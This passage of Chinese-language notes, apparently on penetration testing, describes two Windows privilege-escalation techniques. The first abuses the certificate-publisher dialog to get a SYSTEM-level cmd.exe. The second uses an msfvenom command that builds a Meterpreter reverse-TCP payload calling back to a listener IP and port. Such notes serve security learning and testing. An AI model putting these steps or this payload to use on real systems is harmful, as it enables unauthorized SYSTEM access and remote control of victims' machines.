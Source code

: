 4. 点击显示详细信息里的   "显示有关此发布者的证书的信息“

5. 将弹出的网页"另存为”，弹出位置不可用窗口后点击确定

6. 通过在保存网页的文件资源管理器的地址栏输入“C:\windows\system32\cmd.exe”打开cmd  这样才能继承浏览器的SYSTEM权限​

    ![image](assets/image-20241028163010-9b24mf4.png)​

##### 利用MSF的 bypassuac 模块

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.61.20 lport=6666 -f exe -o tests.exe  #lhostiplport
```

​![image](assets/image-20241028180242-cdz0cxq.png)​

​![image](assets/image-20241028180317-kzz1yck.png)​

